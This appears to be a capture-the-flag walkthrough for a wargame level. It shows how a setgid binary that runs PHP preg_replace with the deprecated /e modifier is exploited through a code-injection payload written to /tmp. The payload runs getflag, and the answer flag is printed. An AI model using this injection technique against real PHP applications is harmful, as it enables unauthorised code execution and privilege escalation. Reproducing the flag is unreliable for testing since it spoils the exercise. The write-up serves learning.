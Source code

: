 # level06

1. examinate existing files permissions

```shell
ls -la
```

shows that the level06 executable belongs to flag06 group, privilege escalation should be possible

2. get the executable (from an external device)

```shell
scp -P 4242 level06@<host>:level06 level06
```

3. decompile the executable and examine the resulting code

```shell
/opt/retdec/bin/retdec-decompiler.py level06
```

setresgid confirms that privilege escalation is possible

4. examinate the existing php code

```shell
cat levelo6.php
```

shows deprecated `\e` regex modifier, which indicates we can inject code in the string. preg_replace will perform the regex substitution then evaluate the code

5. inject some code to pwn the flag

```shell
echo '[x ${`getflag`}]' > /tmp/exploit.php
```

```shell
./level06 /tmp/exploit.php
```

gives flag: `wiok45aaoguiboiki2tuin6ub`

